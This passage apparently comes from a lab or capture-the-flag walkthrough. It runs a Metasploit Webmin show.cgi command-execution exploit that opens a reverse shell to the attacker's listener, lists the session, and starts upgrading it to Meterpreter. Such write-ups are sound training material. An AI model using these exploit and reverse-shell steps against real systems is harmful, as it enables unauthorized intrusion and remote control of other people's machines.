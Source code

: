 Looks good, let's run the exploit by typing `exploit`:

```
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > exploit
[*] Exploiting target 0.0.0.1

[*] Started reverse TCP handler on <MY IP>:4444 
[*] Attempting to login...
[-] Authentication failed
[*] Exploiting target 127.0.0.1
[*] Started reverse TCP handler on <MY IP>:4444 
[*] Attempting to login...
[+] Authentication successful
[+] Authentication successful
[*] Attempting to execute the payload...
[+] Payload executed successfully
[*] Command shell session 1 opened (<MY IP>:4444 -> 10.10.131.100:39566 ) at 2022-01-25 11:33:13 -0500
[*] Session 1 created in the background.
```

Looks like it worked and created a shell in the background under **session 1**. Let's look at this by running the `sessions` command:

```
msf6 post(multi/manage/shell_to_meterpreter) > sessions

Active sessions
===============

  Id  Name  Type            Information  Connection
  --  ----  ----            -----------  ----------
  1         shell cmd/unix               <MY IP>:4444 -> 10.10.131.100:39566  (127.0.0.1)
```

Ok good to go. Since it's already in the background let's upgrade it to a full **meterpreter** shell using the following command: `use post/multi/manage/shell_to_meterpreter` and then running `options` to see what we need to input:

```
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > use post/multi/manage/shell_to_meterpreter
msf6 post(multi/manage/shell_to_meterpreter) > options

Module options (post/multi/manage/shell_to_meterpreter):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   HANDLER  true             yes       Start an exploit/multi/handler to receive the connection
   LHOST                     no        IP of host that will receive the connection from the payload (Will try to auto detect).
   LPORT    4433             yes       Port for payload to connect to.
   SESSION                   yes       The session to run this module on
```

So we just need to set our LHOST IP and SESSION number:
- `set LHOST <MY IP>`
- `set SESSION 1`
